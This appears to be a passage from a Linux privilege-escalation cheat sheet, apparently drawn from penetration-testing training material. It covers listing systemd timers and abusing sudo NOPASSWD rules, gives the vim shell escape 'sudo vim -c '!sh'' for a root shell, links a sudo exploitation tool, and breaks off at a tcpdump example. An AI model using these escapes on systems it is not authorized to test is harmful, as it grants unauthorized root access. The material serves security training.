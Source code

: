 ### Systemd timers

```python
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## SUDO

```bash
sudo su -
```

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO\_KILLER)

### NOPASSWD

#### vim

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

#### tcpdump

```sh
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```
